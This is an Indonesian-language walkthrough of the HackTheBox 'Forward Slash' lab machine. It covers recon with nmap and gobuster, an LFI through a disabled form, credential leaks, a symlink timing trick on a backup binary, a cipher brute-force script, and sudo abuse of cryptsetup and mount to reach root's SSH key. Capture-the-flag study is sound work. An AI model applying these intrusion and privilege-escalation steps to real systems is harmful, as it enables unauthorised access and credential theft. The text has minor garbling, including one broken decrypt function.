



Bismillah..
Sebagai informasi mesin ini bernama Forward Slash dengan OS linux dengan total 40 points (hard). Adapun seperti biasanya, tantangan dari HackThebox adalah mengambil alih akses penuh mesin (privilege escalation) untuk mendapatkan user.txt dan root.txt
Intro
Box yang relatif tidak terlalu susah (mungkin karna saya beruntung wkwkwk). Perjalanan Forwardslash dimulai dengan mencari file. Lalu menambahkan subdomain, dan kemudian bypass lfi pada bagian client-side dan filter. Mendapat file yang memiliki kredensial untuk pengguna. File tersebut dimiliki oleh pengguna. Login ssh ke mesin dan enum menggunakan lse, melakukan timestamp dan pada file config.php.bak dengan timestamp itu kami mendapat user credential. Mendapatkan key setelah menganalisis python script. User dapat me-mount gambar dengan hak istimewa root dan karenanya kami mendapat password ssh pribadi dari root pengguna.This content
Recon
nmap -sCV -oN nmap/serv
Disini kita hanya akan mendapatkan 2 service saja yaitu ssh dan http (simple, dan ini yang saya suka XD)
Pain, we were hacked by some skids that call themselves the "Backslash Gang"... I know... That name... Anyway I am just leaving this note here to say that we still have that backup site so we should be fine. -chiv
gobuster dir -u http://backup.forwardslash.htb/ -w /usr/share/dirb/wordlists/common.txt -t 50 -x php,html,txt -o gobuster/backup
Disitu terlihat ada register page maka langsung menuju bagian situ, sebenarnya saya mencoba berkeliling ke beberapa page semisal dev,api, dsb. (access denied), jadi langsung saja register lalu login dengan akun yang sama.
kita akan mendapatkan page yang menarik disini yaitu pada bagian change profile picture
Disini kita lihat form-nya di-disable kita bisa inspect element, sebenarnya sudah sangat jelas kalau ini memiliki kerentanan LFI. Selanjutnya kita akan menggunakan burp suite untuk mengeksekusinya

Ternyata benar LFI :D. Karna disini kita tidak bisa melakukan RCE melalui LFI maka saya berasumsi untuk mengecek pada page2 yang sudah kita dapatkan tadi (dev, api, dsb)

disitu tertulis access denied.. masih sama seperti awalnya.. maka saya membuka payloadallofthings PayloadAllofThings

setelah di convert dari bas64
kita mendapatkan credential untuk login ssh
kita akan menggunakan LSE untuk enum terdapat file yang menarik yaitu backup.. kita coba jalankan
chiv@forwardslash:/var/www/backup.forwardslash.htb$ backup ---------------------------------------------------------------------- Pains Next-Gen Time Based Backup Viewer v0.1 NOTE: not reading the right file yet, only works if backup is taken in same second ---------------------------------------------------------------------- Current Time: 11:56:51 ERROR: d99c2c7f8fe2c01787f88e9974e4f1fa Does Not Exist or Is Not Accessible By Me, Exiting...
t="$(date +%H:%M:%S | tr -d '\n' | md5sum | tr -d ' -')" ln -s /var/backups/config.php.bak /home/chiv/$t backup

sudo -l
Matching Defaults entries for pain on forwardslash: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User pain may run the following commands on forwardslash: (root) NOPASSWD: /sbin/cryptsetup luksOpen * (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/ (root) NOPASSWD: /bin/umount ./mnt/
def encrypt(key, msg):
key = list(key)
msg = list(msg)
for char_key in key:
for i in range(len(msg)):
if i == 0:
tmp = ord(msg[i]) + ord(char_key) + ord(msg[-1])
else:
tmp = ord(msg[i]) + ord(char_key) + ord(msg[i-1])
while tmp > 255:
tmp -= 256
msg[i] = chr(tmp)
return ''.join(msg)
def decrypt(key, msg):
key = list(key)
msg = list(msg)
for char_key in reversed(key):
for i in reversed(range(len(msg))):
if i == 0:
tmp = ord(msg[i]) - (ord(char_key) + ord(msg[-1]))
else:
tmp = ord(msg[i]) - (ord(char_key) + ord(msg[i-1]))
tmp += 256
while tmp < 0:
msg[i] = chr(tmp)
return ''.join(msg)
print encrypt('REDACTED', 'REDACTED')
print decrypt('REDACTED', encrypt('REDACTED', 'REDACTED'))
def decrypt(key, msg):
key = list(key)
msg = list(msg)
for char_key in reversed(key):
for i in reversed(range(len(msg))):
if i == 0:
tmp = ord(msg[i]) - (ord(char_key) + ord(msg[-1]))
else:
tmp = ord(msg[i]) - (ord(char_key) + ord(msg[i-1]))
while tmp < 0:
tmp += 256
msg[i] = chr(tmp)
return ''.join(msg)
with open ('./ciphertext', 'r') as f:
a = f.read()
for i in range(1, 165):
for j in range(33, 127):
key = chr(j) * i
msg = decrypt(key, a)
if 'the' in msg:
print(msg)
exit()
kita akan mendapatkan passwordnya: cB!6%sdH8Lj^@Y*$C2cf
langsung saja kita buka file image nya, lalu mount ke mnt
sudo /sbin/cryptsetup luksOpen /var/backups/recovery/encrypted_backup.img backup sudo /bin/mount /dev/mapper/backup ./mnt/
dan ternyata kita pun mendapatkan ssh private key dari si root ini. kita hanya tinggal login melalui ssh dan mengambil root.txt